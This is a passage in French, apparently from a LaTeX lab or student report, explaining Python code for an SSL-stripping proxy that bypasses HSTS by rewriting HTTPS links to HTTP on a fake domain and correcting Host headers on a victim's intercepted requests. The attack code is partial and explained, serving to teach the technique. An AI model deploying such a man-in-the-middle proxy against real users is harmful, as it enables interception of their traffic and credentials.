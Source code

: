 La fonction traitant les différentes requêtes est celle-ci :

\begin{verbatim}
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'Host: (\S+)', data)
                if m is not None and m.group(1) == FAKE_HOST:
                    re.sub(b'Host: (\S+)',
                           b'Host: ' + bytes(FORWARD_HOST_HSTS), data)
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_host(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)
\end{verbatim}

À la fin, on transforme tous les liens HTTPS trouvés en HTTP en remplaçant le nom de domaine  par le faux nom de domaine , on met l'entête Host vers le bon domaine et on recalcule la taille de la requête (entête Content-Lenght)

\subparagraph{Transformation des liens \\}

Dans cette fonction, nous utilisons une expression régulière afin de remplacer tous les liens  en .

\begin{verbatim}
def __replace_https_to_http(self, data):
    return re.sub(b'https://' + bytes(FORWARD_HOST_HSTS),
                  b'http://' + bytes(FAKE_HOST), data)
\end{verbatim}

\subparagraph{Modification de l'entête Host}

Lorsque la victime est redirigée vers un lien , l'entête Host de ses requêtes sera éronné. Cette fonction modifie cette entête pour que le serveur puisse recevoir un Host correct.

\begin{verbatim}
def __replace_host(self, data):
    return re.sub(b'Host: ' + bytes(FAKE_HOST),
                  b'Host: ' + bytes(FORWARD_HOST_HSTS), data)
\end{verbatim}


